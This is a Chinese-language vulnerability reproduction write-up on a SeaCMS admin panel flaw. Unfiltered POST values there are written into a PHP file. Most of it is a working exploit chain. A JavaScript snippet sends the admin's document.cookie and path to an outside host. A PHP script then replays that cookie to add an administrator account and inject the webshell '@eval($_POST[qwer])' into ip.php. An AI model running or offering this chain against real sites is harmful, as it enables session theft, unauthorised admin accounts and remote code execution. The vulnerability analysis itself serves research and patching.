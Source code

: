 seacms getshell
===============

一、漏洞简介
------------

海洋cms是一款简单的php内容管理系统，主要用于视频网站，采用PHP+MYSQL架构，未使用框架

二、漏洞影响
------------

三、复现过程
------------

后台代码如下

    <?php

    header('Content-Type:text/html;charset=utf-8');

    require_once(dirname(__FILE__)."/config.php");

    CheckPurview();

    if($action=="set")

    {

        $v= $_POST['v'];

        $ip = $_POST['ip'];

        $open=fopen("../data/admin/ip.php","w" );

        $str='<?php ';

        $str.='$v = "';

        $str.="$v";

        $str.='"; ';

        $str.='$ip = "';

        $str.="$ip";

        $str.='"; ';

        $str.=" ?>";

        fwrite($open,$str);

        fclose($open);

        ShowMsg("成功保存设置!","admin_ip.php");

        exit;

    }

    ?>

这里根本没有经过过滤，直接将变量写进去，可以写一个脚本利用

代码如下

    # test.js

    var img = new Image();

    img.src=  "http://127.0.0.1/test.php?x=" + document.cookie + "&p=" + location.pathname;

    # test.php

    <?php

        function Requests($url, $data, $cookie = '', $type = 1){

            $ch = curl_init();

            $params[CURLOPT_URL] = $url;

               $params[CURLOPT_HEADER] = FALSE;

            $params[CURLOPT_SSL_VERIFYPEER] = false;

            $params[CURLOPT_SSL_VERIFYHOST] = false;

            $params[CURLOPT_RETURNTRANSFER] = true;

            if ($type === 1) {

                $params[CURLOPT_POST] = true;

                $params[CURLOPT_POSTFIELDS] = $data;

            }

            $params[CURLOPT_COOKIE] = $cookie;

            curl_setopt_array($ch, $params);

            $output = curl_exec($ch);

            file_put_contents('log.txt', $output, FILE_APPEND);

            curl_close($ch);

        }

        $C = $_GET['x'];

        $P = $_GET['p'];

        $P = substr($P, 0, strlen($P)-21);

        file_put_contents('c.txt', $C);

        file_put_contents('p.txt', $P);

        $url_1 = 'http://192.168.113.128'.$P.'admin_manager.php?action=add';

        $url_2 = 'http://192.168.113.128'.$P.'admin_ip.php?action=set';

        $data_1 = 'username=test&pwd=test&pwd2=test&groupid=1';

        $data_2 = 'v=0&ip=+";@eval($_POST[qwer]);"';

        Requests($url_1, $data_1, $C);

        Requests($url_2, $data_2, $C);

这两个脚本会将cookie和后台路径保存在文件中，并且会向后台发送数据，添加一个系统管理员，同时会在系统中写入一个一句话木马，需要注意的是修改域名为测试域名。测试如下

![](./.resource/Seacms后台getshell/media/rId24.png)

代码已经写进了后

![](./.resource/Seacms后台getshell/media/rId25.png)

管理员添加成功

![](./.resource/Seacms后台getshell/media/rId26.png)

\<
